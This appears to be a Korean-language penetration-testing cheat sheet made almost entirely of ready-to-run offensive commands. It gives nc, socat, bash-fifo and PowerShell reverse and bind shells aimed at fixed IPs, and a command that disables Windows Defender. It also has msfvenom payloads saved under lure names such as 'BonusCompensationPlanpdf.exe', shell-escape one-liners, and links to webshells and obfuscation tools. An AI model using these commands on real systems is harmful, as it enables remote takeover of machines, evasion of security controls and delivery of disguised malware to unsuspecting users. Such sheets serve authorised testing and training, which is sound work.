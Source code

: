 # 1. Bind Shells

### 서버 - Bash 셸을 TCP 세션에 바인딩
```rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 192.168.1.1 7777 > /tmp/f```<br/><br/>
```nc -nv 192.168.1.1 7777```

<br/><br/>
# 2. Reverse Shell
```nc -lvnp 8443```<br/>

### 클라이언트 - nc를 사용하여 연결
```nc -e /bin/sh 10.0.3.4 8443```

### 클라이언트 - Bash 셸과 nc 세션을 사용하여 연결
```rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.0.3.4 8443 > /tmp/f```

### 클라이언트 - socat을 사용하여 연결
```socat TCP4:10.10.3.4:8443 EXEC:/bin/bash```

### 클라이언트 - PowerShell을 사용하여 연결
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.1',8443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### Windows Defender 비활성화(PowerShell 연결 차단될 경우)
```Set-MpPreference -DisableRealtimeMonitoring $true```

### 참고
[reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

<br/><br/>
# 3. Payload

### MSFvenom Payload 제작 (Linux용)
```msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > createbackup.elf```

### MSFvenom Payload 제작 (Windows용)
```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > BonusCompensationPlanpdf.exe```

### Search Exploit
```searchsploit 50064.rd```<br/>
경로 출력) ```searchsploit -p 50064.rd```


### Payload 생성 Resource
| **Resource**                            | **설명**                                                                                                                                                                                      |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `MSFVenom & Metasploit-Framework` | [소스](https://github.com/rapid7/metasploit-framework) MSF는 모든 펜테스터 툴킷에 매우 다재다능한 도구입니다. 호스트를 열거하고, 페이로드를 생성하고, 공개 및 사용자 지정 익스플로잇을 활용하고, 호스트에서 익스플로잇 후 작업을 수행하는 방법으로 사용됩니다. 스위스 군용 칼이라고 생각하세요. |
| `Payloads All The Things`         | [소스](https://github.com/swisskyrepo/PayloadsAllTheThings) 여기에서는 페이로드 생성과 일반적인 방법론에 대한 다양한 리소스와 치트 시트를 찾을 수 있습니다.                                                                            |
| `Mythic C2 Framework`             | [소스](https://github.com/its-a-feature/Mythic) Mythic C2 프레임워크는 Metasploit에 대한 대안으로, 고유한 페이로드 생성을 위한 명령 및 제어 프레임워크이자 툴박스입니다.                                                                 |
| `Nishang`                         | [소스](https://github.com/samratashok/nishang) 니샹은 Offensive PowerShell 임플란트와 스크립트의 프레임워크 컬렉션입니다. 여기에는 모든 펜테스터에게 유용할 수 있는 많은 유틸리티가 포함되어 있습니다.                                                 |
| `Darkarmour`                      | [소스](https://github.com/bats3c/darkarmour) Darkarmour는 Windows 호스트를 상대로 사용하기 위해 난독화된 바이너리를 생성하고 활용하는 도구입니다.                                                                                 |

### TTY 쉘 생성
```python -c 'import pty; pty.spawn("/bin/bash")'```<br/>
```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

### 대화형 쉘(python 없는 경우)
```/bin/sh -i```<br/>
```perl —e 'exec "/bin/sh";'```<br/>
```perl: exec "/bin/sh";```<br/>
```ruby: exec "/bin/sh"```<br/>
```lua: os.execute('/bin/sh')```<br/>
```awk 'BEGIN {system("/bin/sh")}'```<br/>
```find . -exec /bin/sh \; -quit```<br/>
```vim -c ':!/bin/sh'```

### sudo 권한 확인
```sudo -l```

<br/><br/>
# 4. WebShell

### Laudanum (all)
[Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum) ```/usr/share/laudanum/```

### Antak Webshell (aspx)
[Nishang Antak](https://github.com/samratashok/nishang/tree/master/Antak-WebShell) ```/usr/share/nishang/Antak-WebShell```

### wwwolf-php-webshell (php)
[WhiteWinterWolf PHP Webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

